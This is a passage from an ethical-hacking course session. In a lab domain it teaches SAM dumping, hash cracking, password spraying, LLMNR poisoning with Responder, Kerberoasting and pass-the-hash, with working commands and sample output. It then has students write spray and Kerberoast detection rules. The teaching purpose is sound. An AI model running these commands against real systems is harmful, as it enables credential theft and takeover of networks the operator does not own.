impacket-secretsdump ./Administrator@192.168.56.107 # Win7; prompts for the password # output — NT hashes for the seeded local accounts: # labuser:1001:aad3b...:31d6cfe0d16ae931b73c59d7e0c089c0::: # helpdesk:1002:aad3b...:<nt-hash>::: # take the 4th field (the NT hash) into a file, one per line awk -F: 'NF>3{print $4}' sam_dump.txt > sam.txt✓ Verification
- secretsdump printed user:rid:LM:NT::: lines for your seeded local accounts
- sam.txt holds the NT hashes, one per line
-
Crack them — NT hash is mode 1000.
hashcat -m 1000 sam.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule hashcat -m 1000 sam.txt --show # → labuser:Summer2024 , helpdesk:Password1 ...
A real hashcat mode-1000 run finishing — Status: Cracked, Recovered 4/4, and the plaintext. (Genuine hashcat run; the accounts and passwords are lab-only throwaways.) ✓ Verification
- At least the weak seeded accounts crack; --show prints hash:plaintext
- You recorded each recovered credential for the access plan
Step 2 — crack Linux /etc/shadow (Metasploitable2)
-
Merge and crack with John.
# from a shell on Metasploitable2 (or copies you already have): unshadow /etc/passwd /etc/shadow > unshadowed.txt john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt john --show unshadowed.txt # → msfadmin:msfadmin , user:user ...✓ Verification
- John cracks the weak accounts; --show lists user:password
- You can explain why these fell instantly (they're in rockyou) — cracking is guessing at scale
Step 3 — the deliberate failure: the wrong wordlist
Run hashcat -m 1000 sam.txt rockyou.txt with no rules against a slightly mangled password (e.g. Summer2024! when rockyou has summer2024). It reports Exhausted — a miss. Add -r best64.rule and it cracks. The lesson: a failed crack usually means wrong wordlist or no rules, not a strong password. Escalate wordlist → rules → mask before you conclude "uncrackable."
Real plaintext credentials from two credential stores, and a felt understanding of why weak passwords are the whole game. Every recovered credential is a line in the access plan — and, next session, a login.
Online Attacks — and Why Spraying Wins
Attacking a live login is slow and loud. The trick that makes it work at all is inverting the loop: one password, many accounts.
Offline (Lab 3) had no limits. Online has two brutal ones: a lockout policy and a log entry per attempt. Every online tool lives under those constraints, and spraying is the technique built specifically to slip between them.
hydra — the 7-part frame
| What it is | A fast online brute-forcer that speaks many protocols (SSH, FTP, RDP, SMB, HTTP forms…). |
| Why it exists | To test a live service's credentials at speed — where you can't get the hash, you attack the login directly. |
| The method | Name the service and target, give it a user (or list) and a wordlist, and mind the lockout — a wide brute-force will lock accounts. Prefer known-user + small list, or spray instead. |
| Real syntax | |
| Read the output | [22][ssh] host: ... login: msfadmin password: msfadmin = a hit. Watch for the service going quiet — that's the lockout, and you caused it. |
| What it feeds | Confirmed live credentials for the access plan (and the "how: online" note). |
| SOC flip | Very loud. Every attempt is a failed-logon event (Windows 4625). A burst from one source is the clearest attack signal there is — which is exactly why brute-force barely works against a monitored, lockout-protected domain, and why spraying exists. |
netexec (nxc) — spraying & pass-the-hash at scale
The maintained successor to CrackMapExec. It authenticates one credential against many hosts (or many accounts on one host) over SMB/WinRM/LDAP/MSSQL — the natural spray and pass-the-hash tool.
nxc smb 192.168.56.10 -u users.txt -p 'Autumn2025!' --continue-on-success # SPRAY: 1 pw, many users
nxc smb 192.168.56.10 -u m.said -H <NT-hash> # PASS-THE-HASH (no plaintext)
nxc smb 192.168.56.0/24 -u a.fahmy -p 'Autumn2025!' # where does this cred work?Brute-force = many passwords against one account → trips lockout after 5 tries. Spraying = one password against many accounts → one attempt each, never near the threshold. Add a wait between rounds and you can spray a whole domain under the radar of a naive lockout policy. It only takes one user with Autumn2025! — and in any org of size, there always is one.
Lab 4 — Spray the Domain, Watch the 4625s
One password against every user in the directory — and the auth log fills with the exact signature you'll turn into a detection rule.
It gets you a credential and it generates real evidence. The spray produces a burst of Windows 4625 failed-logon events on the DC — the evidence you'll read as a defender and write a rule for in Lab 7. Attack now; keep the log.
On the DC: Event Viewer → Windows Logs → Security, or wevtutil epl Security lab4_spray.evtx. If your VM dies, the saved/lab4_4625.evtx fallback lets you still do Lab 7.
Step 1 — build the user list
-
Use the users you already enumerated (LDAP in Session 3, or the profile).
cat > users.txt <<'EOF' a.fahmy m.said n.gamal h.rashad svc_backup EOF✓ Verification
- Your list is the real seeded directory users — not guesses
Step 2 — spray one password across all of them
-
One password, one attempt each — stays under lockout.
nxc smb 192.168.56.10 -u users.txt -p 'Autumn2025!' --continue-on-success # [+] ceh.lab\a.fahmy:Autumn2025! (Pwn3d! or [+]) # [+] ceh.lab\n.gamal:Autumn2025! # [+] ceh.lab\h.rashad:Autumn2025! # [-] ceh.lab\m.said (distinct strong password — the spray misses it) # [-] ceh.lab\svc_backup (its own password)
The defender's view of your spray: a cluster of 4625 failed logons across many accounts from one source, seconds apart. (Ships as a labelled placeholder until captured on a monitored Windows DC.) ✓ Verification
- The spray hits 3 of 5 (a.fahmy, n.gamal, h.rashad) and misses m.said — a realistic partial success
- You recorded the working credential(s) for the access plan
- The DC Security log shows a burst of 4625 (and 4768/4771 pre-auth failures) from your IP — saved for Lab 7
Step 3 — the deliberate failure: trip the lockout
Point a brute-force at one account: nxc smb 192.168.56.10 -u m.said -p rockyou.txt. After 5 attempts the account locks (the policy you seeded), every further try fails regardless of the password, and you've created a very loud 4740 account-lockout event. The lesson: brute-force against a modern domain locks accounts and screams; spraying exists precisely to avoid this. Windows 11/Server now ship account lockout on by default — the era of quiet brute-force is over.
A working domain credential from a single reused password — and the 4625 evidence that a SOC would use to catch you. Both go forward: the credential to the access plan, the log to Lab 7.
Poisoning a Broadcast the Whole Network Trusts
When name resolution falls back to a broadcast, whoever answers first wins — and Responder always answers first.
Spraying and cracking need a starting credential or hash. LLMNR poisoning needs nothing — you sit on the network and wait for a workstation to ask a question out loud. It's the classic "assumed breach" first move on any internal engagement, and it targets the domain member (WIN10-TGT01) you joined in Session 3.
How it works — one picture
Responder — the 7-part frame
| What it is | A Kali tool that answers LLMNR, NBT-NS and mDNS queries, impersonating the requested host to harvest authentication. |
| Why it exists | Because Windows still falls back to trust-nobody broadcast name resolution, and a captured NetNTLMv2 is a crackable (or relayable) credential. |
| The method | Pick the interface, turn on the poisoners, and wait — the attack is patient, not active. A login, a mapped drive, a typo'd share name each trigger a capture. |
| Real syntax | |
| Read the output | [SMB] NTLMv2-SSP Hash : ceh.lab\j.doe:::<hash> — a NetNTLMv2 response, ready for hashcat -m 5600. |
| What it feeds | A crackable credential for the access plan — or an SMB relay (next step in a real engagement). |
| SOC flip | Detectable at the moment of poisoning. A host answering LLMNR for names it doesn't own is anomalous; defenders plant a fake lookup (a "canary") and alarm if anything answers. And the fix is structural — see below. |
Disable LLMNR and NBT-NS (GPO: "Turn off multicast name resolution" → EnableMulticast=0; disable NetBIOS over TCP/IP), require SMB signing, and segment the network. Currency (2026): LLMNR + NBT-NS are still on by default on Windows 10/11 — Microsoft is "ramping down" toward mDNS but hasn't disabled them, so the attack is very much alive (fresh public LLMNR→DC-compromise write-ups appear monthly). And note: Responder poisons mDNS too, so the replacement is also a surface. Verify the victim is still poisonable — lab_s4_dc_setup.ps1 -Stage CheckLLMNR.
Lab 5 — Poison a Broadcast, Capture a Credential
Run Responder, trigger one lookup from the Windows 10 member, and crack what comes back.
Start Responder on Kali, then make the Win10 box do a name lookup that fails — the same thing a real user does by mistyping a share. Responder answers, captures the NetNTLMv2, and you crack it offline. The capture is evidence #2 for Lab 7.
Run Responder only on the host-only NIC. If a lab service already uses SMB/HTTP on Kali, Responder warns — that's fine here. Save /usr/share/responder/logs/; the fallback is saved/lab5_netntlmv2.txt.
Step 1 — start Responder
-
sudo responder -I eth0 -wv # [+] Listening for events... (LLMNR, NBT-NS, MDNS poisoners ON)✓ Verification
- Responder reports the poisoners ON and is listening on your host-only interface
Step 2 — trigger a lookup from Win10
-
On the Win10 member, access a share name that doesn't resolve (a real user's typo).
# in Win10 Explorer or a cmd prompt: \\fileshart\data # deliberately misspelled — DNS fails → LLMNR broadcast → Responder answers
Responder catching the fallback: an [SMB] NTLMv2-SSP Hash for a ceh.lab account. (Ships as a labelled placeholder until captured on a monitored domain.) ✓ Verification
- Responder prints [SMB] NTLMv2-SSP Hash : ceh.lab\<user>:::<hash>
- You saved the hash line to netntlm.txt (evidence #2)
Step 3 — crack it (mode 5600, not 1000)
-
hashcat -m 5600 netntlm.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule hashcat -m 5600 netntlm.txt --show✓ Verification
- You chose 5600 (NetNTLMv2), not 1000 (NT hash) — and it cracked
- The recovered credential goes in the access plan with "how: LLMNR poisoning"
A domain credential harvested from thin air — no starting password, just a workstation that trusted a broadcast. And a captured-poisoning event for the SOC to detect. This is why "disable LLMNR" is on every hardening checklist ever written.
Roasting Tickets, and the Hash You Never Crack
Impacket turns the two Kerberos bleed points into commands — and pass-the-hash reminds you that sometimes the hash is the credential.
You saw the two bleed points in the Kerberos flow. Now you weaponise them with one toolkit. The beauty of Kerberoasting: any domain user can do it — one weak service account and the whole domain tilts. And pass-the-hash shows that a strong password doesn't save a machine whose hash has leaked.
Impacket — the 7-part frame
| What it is | A Python suite of AD/Windows-protocol tools. In Kali the commands are prefixed impacket-. Maintained by Fortra (formerly SecureAuth). |
| Why it exists | To speak Kerberos, SMB and MSRPC as a raw client — so you can request tickets, dump secrets, and run commands without a Windows box. |
| The method | With one valid domain credential you can enumerate SPNs and roast them, ask for AS-REPs of pre-auth-disabled users, dump the NTDS, and exec commands. One foothold → the toolkit does the rest. |
| Real syntax | |
| Read the output | $krb5tgs$23$*svc_backup*... = a Kerberoast hash (mode 13100). $krb5asrep$23$... = an AS-REP (mode 18200). secretsdump prints user:rid:LM:NT::: for every account. |
| What it feeds | Crackable tickets and dumped hashes → the access plan → Session 5's lateral movement. |
| SOC flip | Loud at the DC. GetUserSPNs generates 4769 (service-ticket request) for each SPN — a burst from one user, encryption type 0x17 (RC4), is the Kerberoast signature. GetNPUsers generates 4768. secretsdump/DCSync shows as 4662. All high-signal to an identity-protection product. |
Pass-the-hash — the hash is the credential
You don't always need the plaintext. Because NTLM authenticates with the hash, a stolen NT hash logs you in directly — no cracking step.
evil-winrm (an interactive PowerShell shell once you have a credential or hash) is used in Lab 6. mimikatz (dumping LSASS for live hashes and tickets) and msfconsole are introduced only — Mimikatz gets full treatment in Session 6, Metasploit in Session 5. Don't rabbit-hole; note them and move on.
Lab 6 — Kerberoast, and the Ticket That Won't Crack
Request a service ticket with a low-priv account, crack the service account's password offline, and generate the 4769 evidence — then meet the honest failure case.
Using any domain credential you already own (from Lab 4/5), request the service tickets for the domain's SPNs, crack the weak one offline, and try the strong one — which will never crack. Then pass-the-hash to a box you couldn't crack into. This generates evidence #3 (the 4769 burst) for Lab 7.
wevtutil epl Security lab6_kerberoast.evtx on the DC (or filter to 4769). Fallback: saved/lab6_4769.evtx and saved/lab6_krb5tgs.txt.
Step 1 — roast every SPN
-
Request the service tickets with a low-priv domain credential.
impacket-GetUserSPNs -dc-ip 192.168.56.10 ceh.lab/a.fahmy -request # ServicePrincipalName Name ... # MSSQLSvc/win10-tgt01.ceh.lab:1433 svc_backup → $krb5tgs$23$*svc_backup*... # MSSQLSvc/win10-tgt01.ceh.lab:1434 svc_sql → $krb5tgs$23$*svc_sql*... # save both hashes to spn.txt
GetUserSPNs -request returning the roastable tickets. (Ships as a labelled placeholder until captured on a monitored domain.) ✓ Verification
- You got a $krb5tgs$23$ ticket for each SPN account
- The DC logged a burst of 4769 with encryption type 0x17 — saved for Lab 7
Step 2 — crack the weak one (mode 13100)
-
hashcat -m 13100 spn.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule hashcat -m 13100 spn.txt --show # → svc_backup:<its weak password>✓ Verification
- svc_backup cracks — its password was weak, as service accounts often are
- You recorded it as "credential obtained · how: Kerberoast" in the access plan
Step 3 — the honest failure case
svc_sql was seeded with a long random password. Its ticket roasts exactly the same way, but hashcat runs to Exhausted against rockyou and every rule — because the password isn't in any wordlist. The lesson: Kerberoasting recovers weak service passwords, not all of them. A long random service-account password (or a gMSA) is the countermeasure — record svc_sql as "roastable, not cracked (strong password)."
Step 4 — you don't always need to crack (pass-the-hash + a shell)
-
Use a dumped hash directly, and get an interactive shell with a working credential.
impacket-secretsdump ceh.lab/svc_backup@192.168.56.10 # now that svc_backup is cracked nxc smb 192.168.56.20 -u Administrator -H <NT-hash> # pass-the-hash, no plaintext evil-winrm -i 192.168.56.20 -u svc_backup -p '<cracked>' # interactive PowerShell shell✓ Verification
- You authenticated somewhere with a hash (no cracking) — pass-the-hash proven
- You have an interactive session with at least one recovered credential
A cracked service-account password from a ticket any user could request, a demonstrated pass-the-hash, the honest limit (a strong service password defeats the roast), and the 4769 evidence for Lab 7. Your access plan is nearly complete.
Every Attack Today, and the Log Line It Left
You've been the attacker all afternoon. Here is the other side of every keystroke — the events a SOC analyst actually triages.
Authentication is the most-monitored surface in any network because it's what everything else protects. Each attack you ran writes a specific, high-signal event. Learn the pairs and you can sit on either side of the wire — which is exactly what you're about to prove in Lab 7.
Where each credential lives — click a target
The same workflow, a different store per OS. This is the map behind everything today.
MSF2 · KIOPTRIX · STAPLER/etc/shadow
Salted Unix hashes. Get a shell (or the file), unshadow, crack with John or hashcat. Salting means no rainbow tables and no cross-user reuse. Store: local file. Lab 3.
WIN7 · WIN10SAM & LSASS
Local NT hashes in the SAM (mode 1000); live hashes + tickets in LSASS memory (mimikatz, S6). Dump the SAM with secretsdump, crack, or pass-the-hash without cracking. No salt on NTLM. Lab 3 / Lab 6.
THE DOMAIN CONTROLLERNTDS.dit & Kerberos
Every domain hash in NTDS.dit, plus the whole Kerberos surface. Kerberoast (13100) and AS-REP roast (18200) need only a low-priv user; NTDS extraction (secretsdump/DCSync) needs privilege but yields the entire domain. This box is why the AD lab exists. Lab 6.
A modern EDR / identity-protection product (Microsoft Defender for Identity, and its peers) flags spraying and Kerberoasting in near-real-time, often before the attacker finishes. Learning the attack without the detection is learning half the job — and the detection half is the one you get paid for. That's why the next 16 minutes is the most important block of the day.
Lab 7 — Detect the Attack You Just Ran
Become the SOC analyst who catches you — using the auth logs your own spray, roast and poison generated this session.
Nothing in the diploma closes the loop this cleanly. You generated the evidence in Labs 4–6. Now you'll read it as a defender, identify the attack from the evidence alone, and write one working detection rule that would fire on it. This is, almost exactly, the tier-1-into-tier-2 SOC job — and you'll have done the attack and the detection for the same events.
Have your saved DC Security log open (lab4_spray.evtx, lab6_kerberoast.evtx) and the Responder log. No VM? Use saved/lab4_4625.evtx / saved/lab6_4769.evtx — but you generated the real thing an hour ago; use yours.
Step 1 — identify the attack from evidence alone
-
Read the log without looking at your commands. Which attack was this?
# in Event Viewer, filter the Security log to 4625; or from PowerShell: Get-WinEvent -FilterHashtable @{LogName='Security';Id=4625} | Group-Object {$_.Properties[5].Value} | Sort-Object Count -Descending # many DISTINCT target usernames, ONE source IP, seconds apart → password spray✓ Verification — you can state, from evidence only:
- The attack type (many accounts + one source + one password window → spray; one user + many SPNs + RC4 → Kerberoast)
- The source IP, the count of distinct accounts, and the time window
- Which Event IDs carry it (4625/4771 for spray, 4769 enc-type 0x17 for Kerberoast)
Step 2 — write the rule (your choice of language)
The cleanest signature is password spraying: many distinct accounts, one source, one password, short window. Here is a worked Sigma rule; then complete one of the SPL or KQL skeletons — your choice.
Worked example — Sigma (vendor-neutral)
title: Password Spraying - many accounts, one source, short window
id: b7c4e1a2-s4-lab-credattack-0001
status: experimental
description: One source failing authentication against many DISTINCT accounts in a
short window - a password spray. Modelled on events generated in the CEH S4 lab.
logsource:
product: windows
service: security
detection:
selection:
EventID: 4625 # failed logon (spray) ; use 4771 for Kerberos pre-auth fail
Status: '0xC000006A' # bad password (not bad username)
timeframe: 5m
condition: selection | count(TargetUserName) by IpAddress >= 10
fields:
- IpAddress
- TargetUserName
- LogonType
level: high
tags:
- attack.credential_access
- attack.t1110.003 # Password SprayingThe load-bearing lines are timeframe and count(TargetUserName) by IpAddress >= 10 — "many distinct accounts, one source, short window" as a threshold. Tune the number to your environment; too low and a broken service account with a stale password trips it.
Skeleton A — Splunk SPL (complete the blanks)
index=wineventlog EventCode=4625
| bin _time span=5m
| stats dc(Account_Name) AS distinct_users values(Account_Name) AS who by Source_Network_Address, _time
| where distinct_users >= ______ <-- your threshold
| sort - distinct_usersSkeleton B — Microsoft Sentinel KQL (complete the blanks)
SecurityEvent
| where EventID == 4625
| summarize distinct_users = dcount(TargetUserName), sample = make_set(TargetUserName, 20)
by IpAddress, bin(TimeGenerated, ____m) // your window
| where distinct_users >= ______ // your threshold
| order by distinct_users descKerberoasting: EventID 4769 where TicketEncryptionType == 0x17 (RC4) and one IpAddress/account requests many distinct ServiceNames in a short window (map T1558.003). LLMNR poisoning: alert when any host answers a planted "canary" name that shouldn't resolve, or on NetNTLMv2 auth to an unexpected host (T1557.001). Write whichever you have the cleanest evidence for.
✓ Verification — the deliverable
- One complete, working rule (Sigma, SPL or KQL) that would fire on your Lab 4 spray (or Lab 6 roast)
- A stated threshold and time window, one sentence on what would false-positive it
- The ATT&CK mapping on the rule (T1110.003 / T1558.003 / T1557.001)
- One sentence on how a slow spray (a long wait between rounds) slips under your window — and what you'd change
You attacked a domain, generated the auth evidence, read it as a defender, and wrote the rule — for the same events. That full loop is exactly what an identity-focused SOC hires for. Keep this rule; it goes in your access-plan appendix and it's a portfolio piece.
The one free room that runs today's whole AD credential chain end to end — enumerate users, AS-REP roast, Kerberoast, then pass-the-hash to the DC.
-
kerbrute user-enum → GetNPUsers (AS-REP) → GetUserSPNs (Kerberoast) → secretsdump → evil-winrm. Do this one to run the exact tools from Labs 5–6 against a fresh domain, on the platform, for free.
Lab 8 — Assemble the Access Plan
Everything you found today, per host, in one document — literally Session 5's input.
Session 3 ended with a target profile (what's there). Session 4 ends with an access plan (how you get in). Same discipline — conclusions over dumps, confidence stated — now built from the vulnerabilities you confirmed and the credentials you took. This is the single most important artefact you carry into Session 5.
The template — one block per host
| Field | Example |
|---|---|
| Host / IP · role | 192.168.56.107 · WIN7-TGT01 (legacy) |
| Confirmed vulnerabilities | MS17-010 — CVE-2017-0144 — CVSS 8.1 High — public exploit: yes (MSF ms17_010_eternalblue) |
| Credentials obtained (and how) | labuser:Summer2024 (SAM dump + hashcat -m 1000) |
| Other findings | SMBv1 enabled; local admin hash dumped |
| Chosen way in (for S5) | EternalBlue → SYSTEM (unauth, network-reachable, reliable) |
-
Fill one block per host — Metasploitable2, Win7, Win10, the DC — from your Lab 1–6 output.
✓ Verification
- Every host has: confirmed vulns (CVE + CVSS + public exploit yes/no + reference), and any credentials obtained with how
- Every version/CVE is exact — it's an exploit key next session
- Confidence stated where you're unsure (an unconfirmed CVE, a "roastable but not cracked")
-
Pick the single chosen way in per host — the one Session 5 will execute — with a one-line reason.
✓ Verification
- Each choice names a specific vuln or credential, not "SMB looks old"
- The choice weighs reliability + reach + privilege (unauth SYSTEM beats a low-priv maybe)
- Attach your Lab 7 detection rule as an appendix — the plan is attacker and defender.
Pass: a ranked, sourced, honest plan — exact CVEs with the public-exploit answer, credentials with their method, a defensible single way in per host, and the detection rule attached. Needs-review: a pile of raw tool output, or "cracked some hashes" with no CVE, method or choice. Same standard as Session 3's target profile: conclusions, not dumps.
Session 2's recon report fed Session 3's target profile; that profile fed this access plan; and this plan is Session 5's input — its "chosen way in" per host is the exact exploit S5 executes. The same local lab (incl. the ceh.lab DC) is your one carry-through target from recon (S2) all the way down through privilege escalation (S6). One target, profiled once, attacked all the way. Keep the chain intact.
You Have the Key. Next Session You Turn It.
A concept, not a lab: the shell you're aiming for, and the framework that delivers it.
Your access plan names a way in for every host. Session 5 executes those — manual exploitation, msfvenom payloads, buffer overflows. Today we only frame the destination so the plan makes sense: what a shell is, and the one distinction that decides whether your exploit even connects back.
Bind vs reverse — the distinction that matters
BINDAttacker connects in
The target opens a listening port; the attacker connects to it. Simple — but inbound connections are almost always blocked by the target's firewall, so it usually fails on a real network. Use it only when you control the path in.
REVERSETarget calls back
The target connects out to the attacker's waiting listener. Outbound is almost always allowed (that's how the box browses the web), so it bypasses inbound firewall rules. This is why Session 5's payloads "call back" — reverse is the default for a reason.
msfconsole is the framework that ties it together: search an exploit for a CVE in your access plan, set RHOSTS/LHOST, choose a (reverse) payload, and run. You already found the modules in Lab 1 (ms17_010_eternalblue, vsftpd, usermap_script). Session 5 fires them — and does it by hand first, so you understand what the framework automates. This is the T1210 hand-off.
Recon (S2) found the target. Scanning (S3) mapped it. Vulnerability analysis and credential attacks (S4) got you a way in. Session 5 turns the key; Session 6 escalates to own the box. One lab, one chain — and you're halfway down it.
Knowledge Check
Ten questions. Click an answer to check it. The printable copy is in exercises/session-04/quiz.md.
Q1Why can't you simply "decrypt" an NTLM hash back to the password?
- The key is stored on the DC
- It's Base64-encoded, not encrypted
- Hashing is one-way with no key — there's nothing to reverse, so you guess inputs instead
- You can, with the right AES key
Q2Responder poisons a broadcast and captures a credential off the wire. What did it actually get?
- The plaintext password
- The NetNTLMv2 challenge-response (crack with -m 5600)
- The NT hash from the SAM (-m 1000)
- A Kerberos TGT
Q3Why does password spraying succeed where brute-force fails against a domain with a lockout policy?
- Spraying is faster
- Spraying uses stolen hashes
- Spraying encrypts its traffic
- One password across many accounts means one attempt each — it never reaches the lockout threshold
Q4What makes Kerberoasting possible for any low-privilege domain user?
- Any user can request a service ticket for any SPN, and it's encrypted with the service account's hash
- The DC emails the password
- Service accounts have no password
- It requires Domain Admin
Q5Two vulns both score CVSS 8.1. Which vector tells you it's reachable from your Kali box with no help from the victim?
- AV:L/PR:H/UI:R
- AV:P/AC:H
- AV:N/PR:N/UI:N
- S:C alone
Q6You dumped an NT hash but it won't crack. How can it still get you in?
- It can't — a strong password wins
- Pass-the-hash — feed the hash straight to nxc/psexec; NTLM authenticates with it
- Decode it from Base64
- Email it to the DC
Q7Which auth-log signature best identifies Kerberoasting on the DC?
- 4625 from many sources
- 4740 account lockout
- A single 4624 success
- A burst of 4769 with encryption type 0x17 (RC4), one user, many SPNs
Q8Which of these leaves NO trace on the target?
- searchsploit (local Exploit-DB query)
- nmap --script vuln
- A Nessus scan
- GetUserSPNs -request
Q9How many IPs does the free Nessus Essentials tier scan in 2026?
- Unlimited
- 16
- 5
- 32
Q10What's the correct countermeasure to LLMNR/NBT-NS poisoning, and its 2026 status?
- Nothing — it was removed from Windows years ago
- Disable LLMNR + NBT-NS via GPO; they're still on by default in 2026, so the attack still works
- Enable SMBv1
- Turn off Kerberos
Short answer
Q11In one sentence, why is the NetNTLMv2 you capture with Responder cracked with a different hashcat mode than the NT hash you dump from the SAM?
Model answer
They are different artefacts of the same account — the NT hash (mode 1000) is the stored secret, while NetNTLMv2 (mode 5600) is a keyed challenge-response computed from it, so each has its own format and mode.
Q12Give the one-line reason a modern EDR/identity product makes teaching credential attacks without their detection "half the job."
Model answer
Products like Defender for Identity flag spraying and Kerberoasting in near-real-time, so the paid work is writing and tuning the detections — the half of the skill that stops the attack, not just the half that runs it.
Practise Today's Attacks — Free
A fully-free TryHackMe path for every topic, plus the local machines you already downloaded — every one verified before it went on this page.
Do the free rooms in order — each maps to a block from today. Then get reps on the local practice range, where you own the targets and the authorisation. The strongest dedicated AD-credential rooms are mostly premium; the one that isn't (Attacktive Directory) is a gem, and the local ceh.lab DC is exactly why we don't depend on paid rooms.
One free room per half of the session, in the order that matches how we taught it.
CVE, CVSS, and vulnerability research — the vuln-analysis half. Do this first.
- OpenVASFree
Automated scanning with Greenbone/GVM — the free stand-in for the Nessus demo (the nessus room is private).
- Crack the HashFree
Identify and crack every common hash type with hashcat + John — pure reps on the pipeline from P13/P15.
- HydraFree
Online brute-force against real services — the hydra block, hands-on.
The one to prioritise. User enum → AS-REP roast → Kerberoast → secretsdump → evil-winrm: the exact chain from Labs 5–6 against a fresh domain.
Service enumeration + hydra against them — carries over from Session 3, good warm-up for the online-attack half.
These are good but paywalled or private; don't count on them: passwordattacks (Max), attackingkerberos (Premium), hashingcrypto101 (Premium), johntheripperbasics (Premium), nessus and responder (both private). Our local lab covers all of them for free.
Local practice range — you already own these
| Machine | What to practise (today's skills) |
|---|---|
| Metasploitable 3 (Win) | Weak "Star Wars" accounts (vagrant, leia_organa…) — a perfect password-spray and SAM hash-crack target. |
| Stapler 1 | The enum4linux user-list dump (peter, elly, kathy…) becomes your spray list; then crack the SSH/FTP creds you spray. |
| Kioptrix 1 | mod_ssl 2.8.4 / Samba 2.2.1a — pure version → CVE → public exploit? reading (Lab 1 method). |
Every platform above hands you the target and written permission to attack it. That permission is specific to that box. Cracking, spraying or poisoning anything you don't own — or weren't explicitly hired to test — is a criminal offence. Host-only lab or authorised room only. Always.
Takeaways & Homework
You turned an enumerated network into working credentials against a real domain — and caught yourself doing it.
- Attackers log in. A missing patch, a reused password, a weak service account, a workstation that trusts a broadcast — each hands you a credential or a known exploit. You rarely "break" anything.
- A hash is guessed, not reversed. One-way, no key. Weak passwords fall because they're in the wordlist; strong ones don't because they aren't.
- Know what crosses the wire. NetNTLMv2 (Responder, -m 5600) is not the NT hash (SAM, -m 1000). Wrong mode, wasted hour.
- Kerberos leaks in two places. AS-REP roast (no pre-auth, -m 18200) and Kerberoast (any user, -m 13100) — both need only a low-priv account.
- Spraying beats brute-force. One password, many accounts, under the lockout threshold. It only takes one reused password in the whole org.
- You don't always crack. Pass-the-hash: the NT hash is the credential.
- Every credential attack is loud. 4625 (spray), 4769/0x17 (Kerberoast), a poisoned broadcast — and you wrote the rule that catches them. That detection half is the job.
- Verify the tool is still alive. Nessus Essentials is 5 IPs now (not 16); LLMNR is still on by default in 2026; Impacket is Fortra's. Check before you quote.
1 · Finish the access plan (Lab 8) for all four hosts — confirmed vulns (CVE + CVSS + public-exploit answer), credentials with their method, one chosen way in each, detection rule attached. This is Session 5's input; arrive without it and you'll build it while everyone else exploits.
2 · One-page credential report: from your own Labs 4–6, show one cracked hash, one spray hit, and one roasted ticket, and for each write the Event ID a SOC would see.
3 · Practice (free): complete Vulnerabilities 101 and Attacktive Directory. Bring one thing each taught you that this session didn't.
4 · Practice range (local): spray Metasploitable 3's Star Wars accounts and crack at least two, using Stapler 1's enum4linux dump as your spray list.
5 · Stretch (optional): extend your Lab 7 rule so it also catches a slow spray (a long wait between rounds), and write one sentence on the false-positive cost.
You attacked a domain and detected the attack in the same afternoon, on the same events. Authentication is the surface every attacker goes for and every SOC watches hardest — and you just worked both sides of it. Bring your access plan to Session 5. It's time to turn the key.
Navigate with ← → arrow keys · Home / End to jump